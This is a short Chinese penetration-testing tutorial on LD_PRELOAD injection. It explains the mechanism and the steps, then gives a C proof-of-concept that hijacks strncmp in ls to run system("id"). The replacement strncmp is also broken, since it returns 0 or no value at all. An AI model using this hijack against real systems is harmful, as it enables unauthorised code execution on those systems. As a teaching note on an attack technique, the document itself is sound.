 ```yaml
---
title: 环境变量注入
date: 2023/5/31 19:48:25
categories:
- 渗透测试
tags:
- 动态链接库
---
```


# 概念

> LD_PRELOAD 是 Linux 系统中的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

具体的操作步骤如下：

1. 定义与目标函数完全一样的函数，包括名称、变量及类型、返回值及类型等。
2. 将包含替换函数的源码编译为动态链接库。
3. 通过命令 `export LD_PRELOAD="库文件路径"`，设置要优先替换动态链接库即可。
4. 替换结束，要还原函数调用关系，用命令`unset LD_PRELOAD` 解除

# 例子

## 劫持ls命令

查找ls命令执行时调用的系统函数，例如调用了`strncmp`

payload

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

这里函数的定义可以根据报错信息进行确定
